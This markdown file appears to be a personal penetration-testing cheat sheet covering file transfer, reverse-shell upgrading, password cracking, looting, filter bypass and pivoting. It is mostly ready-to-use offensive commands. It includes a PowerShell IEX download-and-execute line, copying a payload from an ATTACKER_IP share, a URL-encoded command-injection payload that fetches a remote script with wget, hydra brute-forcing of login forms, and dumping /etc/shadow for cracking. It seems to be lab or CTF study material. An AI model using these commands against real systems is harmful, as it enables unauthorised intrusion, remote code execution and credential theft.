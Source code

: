 ```yaml
---
description: GOTTA STICK TO THE BASICS LAHH
---
```


# Fundamentals

## File Transfer

#### Python HTTP Server

`sudo python3 -m http.server 80`

#### Netcat&#x20;

```
nc -vl [port] > file [receiver]
nc -N [receiver_IP] [receiver_port] < file [sender]
cat [file] | nc [receiver_IP] [receiver_port] - Alternative
```

#### SCP

`scp <file path> $user@$ip:/<where you want to store it>`&#x20;

#### Powershell

```
powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.31.141/ignite.txt', 'ignite.txt')
download = IEX(New-Object Net.WebClient).downloadString('http://IP_ADDRESS/FILE')
Invoke-WebRequest http://domain.tld/script.ps1 -OutFile C:\Windows\Tasks\script.ps1
```

#### Certutil

```
certutil -urlcache -f [path_to_file] [file_name]
```

#### SMB

```
sudo python3 /opt/impacket/examples/smbserver.py share . -smb2support -username user -password s3cureP@ssword
net use \\ATTACKER_IP\share /USER:user s3cureP@ssword
copy \\ATTACKER_IP\share\Wrapper.exe %TEMP%\wrapper-USERNAME.exe
net use \\ATTACKER_IP\share /del
```

## Upgrading Reverse Shell&#x20;

```
python -c 'import pty; pty.spawn("/bin/bash")'

Ctrl-Z
# In Kali
stty raw -echo
stty size
fg

#In reverse shell
reset
export SHELL=bash
export TERM=xterm-256color
$stty rows <num> columns <cols>

/usr/bin/script -qc /bin/bash /dev/null

SOCAT
```

## Password Cracking

```
[file_ext]2john
john [--format=lm] --wordlist=/usr/share/wordlists/rockyou.txt [hash.txt]
unshadow /etc/passwd /etc/shadow > output.db

hydra [-L [userlist.txt] -P [passwordlist.txt]]/[-C [combineduserpassfile]] [IP] http[s]-post-form "/[endpoint]:log=^USER^&pwd=^PASS^[rest of POST body if exist]:F=[error message]"
-C uses file in [user:pass] format and reduces the number of combinations and reduces bruteforce time, eg. retrieve username passwords from a db

.\hashcat64.exe -m [mode] hash.txt rockyou.txt -d 1
```

## Looting

```
cat userlist.txt | tr ' ' '\n' | grep . [Replaces all whitespaces between values with newlines]
grep -r password . 2>/dev/null [searches for the value 'password' recursively across all files]
cut -d "delimiter" -f (field number 1,2 etc.) file.txt
```

## Bypass Character Filters

```
${IFS} - Internal Field Separator, default variable in bash

0xdf;{ping,-c,1,10.10.14.23};#
0xdf;ping -c 1 10.10.14.23;#

#Quotes was also not URL encoded
password=%0abash%09-c%09"wget%09http://10.10.16.48/1.sh"&backup=
%0a : \n
%09 : \t
```

## Pivoting & Port Forwarding

{% embed url="https://github.com/twelvesec/port-forwarding" %}

{% embed url="https://www.ivoidwarranties.tech/posts/pentesting-tuts/pivoting/proxychains/" %}

{% embed url="https://theyhack.me/Proxychains-Double-Pivoting/" %}

{% embed url="https://software-sinner.medium.com/how-to-tunnel-and-pivot-networks-using-ligolo-ng-cf828e59e740" %}

## Git

```
https://github.com/arthaud/git-dumper
git status
git diff --cached [file]
git show <hash> [in logs]

```
